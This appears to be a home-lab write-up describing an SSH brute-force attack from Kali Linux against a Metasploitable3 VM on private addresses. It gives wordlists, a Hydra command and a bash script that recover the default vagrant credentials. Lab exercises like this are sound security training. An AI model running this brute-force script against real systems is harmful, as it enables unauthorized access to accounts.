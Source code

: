 # Phase #1 – Setup and Compromise the Service

## Objective

Set up the attacker and victim environments, then compromise a vulnerable SSH service using two methods:

- Phase 1.1: Brute-force attack using a wordlist (Hydra)
- Phase 1.2: Bash script with Hydra to automate the process

## Environment Setup

- Attacker Machine: Kali Linux

  Hostname: kali

  Host-Only IP Address: 192.168.56.104

  NAT IP Address: 10.0.2.15

  Username: kali

- Victim Machine: Metasploitable3

  Hostname: metasploitable3

  Host-Only IP Address: 192.168.56.103

  NAT IP Address: 10.0.2.2

  Username: vagrant

  Password: vagrant

## Targeted Service

- **Service:** SSH
- **Port:** 22
- **Vulnerability Type:** Weak/default credentials
- **Goal:** Compromise SSH access through brute-force login

## Phase 1.1 – Hydra Brute-Force Attack Using Wordlists

### 1. Connectivity Check

Confirmed Kali can reach Metasploitable3 via ping:

```bash
ping 192.168.56.103
```

[![Screenshot of results]](image-10.png)

### 2. Created Username and Password Lists

**user.txt**

```
msfadmin
user
postgres
vagrant
```

[![Screenshot of results]](image-8.png)

**pass.txt**

```
msfadmin
123456
toor
password
vagrant
```

[![Screenshot of results]](image-9.png)

### 3. Ran Hydra Using Both Files

Command used:

```bash
hydra -L user.txt -P pass.txt ssh://192.168.56.103 -t 4
```

Result:

- Hydra successfully found the credentials:
  - **Username:** `vagrant`
  - **Password:** `vagrant`
    [![Screenshot of results]](image-11.png)

## Phase 1.2 – Custom Scripted Attack (Hydra + Bash)

### 1. Created Bash Script

**ssh_bruteforce.sh**

```bash
#!/bin/bash
# Configuration
TARGET_IP="192.168.56.103"
USERNAME="vagrant"
PASSWORD_LIST="pass.txt"

# Run Hydra
echo "[*] Starting SSH brute-force attack on $TARGET_IP..."
hydra -l "$USERNAME" -P "$PASSWORD_LIST" ssh://"$TARGET_IP" -t 4 -f -V
```

[![Screenshot of results]](image-7.png)

### 2. Ran the Script

```bash
chmod +x ssh_bruteforce.sh
./ssh_bruteforce.sh
```

Output confirmed the attack was successful with valid credentials found:

- **Username:** `vagrant`
- **Password:** `vagrant`
  [![Screenshot of results]](image-5.png)

## Conclusion

The SSH service on Metasploitable3 was successfully compromised using Hydra with both a custom wordlist and a Bash script. This confirms the service’s vulnerability to brute-force attacks due to the use of default credentials. The machine is now ready for defensive countermeasures.
